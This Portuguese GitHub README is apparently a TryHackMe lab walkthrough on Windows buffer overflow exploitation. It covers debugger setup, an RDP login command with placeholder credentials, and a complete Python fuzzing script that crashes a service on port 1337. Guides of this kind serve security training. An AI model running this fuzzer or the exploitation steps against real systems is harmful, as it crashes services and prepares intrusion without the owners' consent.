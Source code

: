 # Exploração de Buffer Overflow
ip do meu windows interno 192.168.1.10
## 🔥 Introdução
Este guia cobre um processo passo a passo para explorar vulnerabilidades de Buffer Overflow em aplicações Windows, utilizando ferramentas como **Immunity Debugger**, **Mona**, e **Metasploit**.

> 📌 Baseado na sala "Buffer Overflow Prep" do TryHackMe: [Buffer Overflow Prep](https://tryhackme.com/room/bufferoverflowprep)

---

## 🛠️ Configuração do Ambiente

1. **Baixe e instale o Immunity Debugger** no Windows.
2. **Configure o plugin Mona** dentro do Immunity Debugger.
3. **Certifique-se de que a aplicação vulnerável está em execução.**
   ```bash
   nc <IP_ALVO> 1337
   ```

4. **No Kali, use `xfreerdp` para acessar a máquina Windows remotamente:**
   ```bash
   xfreerdp /u:admin /p:password /cert:ignore /v:<IP_ALVO> /workarea /tls-seclevel:0
   ```
!mona config -set workingfolder c:\mona\%p
---

## 🚀 Fuzzing
Criamos um script para enviar strings progressivamente maiores e verificar se ocorre um crash:

```python
#!/usr/bin/env python3
import socket, time, sys

ip = "<IP_ALVO>"
port = 1337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
```
![image](https://github.com/user-attachments/assets/5359f9a5-fc2e-4622-adfd-d43874aefcb9)
